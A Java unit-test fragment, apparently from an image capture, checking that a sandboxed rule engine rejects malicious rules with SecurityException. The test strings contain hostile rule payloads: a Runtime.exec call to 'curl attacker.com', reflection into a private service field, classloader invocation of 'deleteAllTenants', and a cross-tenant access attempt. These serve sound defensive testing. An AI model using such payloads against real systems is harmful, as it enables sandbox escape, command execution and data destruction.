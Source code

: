 ```java

    assertThrows(SecurityException.class, () ->
        ruleEngine.compileAndEvaluate(maliciousRule));
}

@Test
public void testRuleCannotExecuteSystemCommands() {
    String maliciousRule = """
        rule "Exec Command"
        when $span: Span()
        then
            Runtime.getRuntime().exec("curl attacker.com");
        end
        """;

    assertThrows(SecurityException.class, () ->
        ruleEngine.compileAndEvaluate(maliciousRule));
}

@Test
public void testRuleCannotAccessOtherTenantData() {
    // Set context for tenant A
    SafeRuleCapabilities.setContext("tenant-a", "trace-1", "rule-1");

    // Rule tries to create signal for tenant B
    assertThrows(SecurityException.class, () ->
        capabilities.createSignal("rule-1", "Evil Rule", Map.of("tenantId", "tenant-b")));

    // Verify violation recorded in TigerBeetle
    List<TBTransfer> violations = tbClient.getAccountTransfers(
        ruleAccountId, filterByCode: 7, filterBySeverity: CRITICAL);
    assertEquals(1, violations.size());
}

@Test
public void testRuleCannotReflectToAccessServices() {
    String maliciousRule = """
        rule "Reflection Attack"
        when $span: Span()
        then
            capabilities.getClass().getDeclaredField("signalService")
                .setAccessible(true).get(capabilities);
        end
        """;

    assertThrows(SecurityException.class, () ->
        ruleEngine.compileAndEvaluate(maliciousRule));
}

@Test
public void testRuleCannotLoadArbitraryClasses() {
    String maliciousRule = """
        rule "ClassLoader Attack"
        when $span: Span()
        then
            Class.forName("com.betrace.services.TenantService")
                .getMethod("deleteAllTenants").invoke(null);
        end
        """;

    assertThrows(SecurityException.class, () ->
        ruleEngine.compileAndEvaluate(maliciousRule));
}
```